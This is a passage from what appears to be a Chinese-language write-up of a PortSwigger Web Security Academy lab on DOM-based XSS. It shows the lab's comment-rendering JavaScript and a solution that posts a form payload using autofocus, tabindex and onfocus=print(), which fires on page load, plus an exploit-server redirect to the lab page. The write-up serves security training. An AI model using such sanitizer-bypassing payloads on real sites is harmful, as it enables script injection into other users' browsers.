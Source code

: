 ```js
        let newInnerHtml =
          firstPElement.innerHTML + janitor.clean(comment.author);
        firstPElement.innerHTML = newInnerHtml;
      }

      if (comment.date) {
        let dateObj = new Date(comment.date);
        let month = "" + (dateObj.getMonth() + 1);
        let day = "" + dateObj.getDate();
        let year = dateObj.getFullYear();

        if (month.length < 2) month = "0" + month;
        if (day.length < 2) day = "0" + day;

        dateStr = [day, month, year].join("-");

        let newInnerHtml = firstPElement.innerHTML + " | " + dateStr;
        firstPElement.innerHTML = newInnerHtml;
      }

      firstPElement.appendChild(avatarImgElement);

      commentSection.appendChild(firstPElement);

      if (comment.body) {
        let commentBodyPElement = document.createElement("p");
        commentBodyPElement.innerHTML = janitor.clean(comment.body);

        commentSection.appendChild(commentBodyPElement);
      }
      commentSection.appendChild(document.createElement("p"));

      userComments.appendChild(commentSection);
    }
  }
}
```

意外的有點簡單，先到 Comment 這邊留言

```html
<form autofocus tabindex="0" onfocus="print()">
  <input id="attributes" />Click me
</form>
```

之後在 exploit-server 構造

```
HTTP/1.1 301 Moved Permanently
Location: https://0a6e008703dc6333801b71c8002b006b.web-security-academy.net/post?postId=7
```

這題我覺得會用到 [Lab: Reflected XSS into HTML context with all tags blocked except custom ones](./cross-site-scripting.md#lab-reflected-xss-into-html-context-with-all-tags-blocked-except-custom-ones) 的概念

總之就是 `autofocus tabindex=0 onfocus=print()` 這套組合拳，載入頁面就直接觸發

## 小結

建議先把 [XSS](https://portswigger.net/web-security/cross-site-scripting) Lab 解完，再來解這個 Lab，會順暢很多～

## 參考資料

- https://portswigger.net/web-security/dom-based
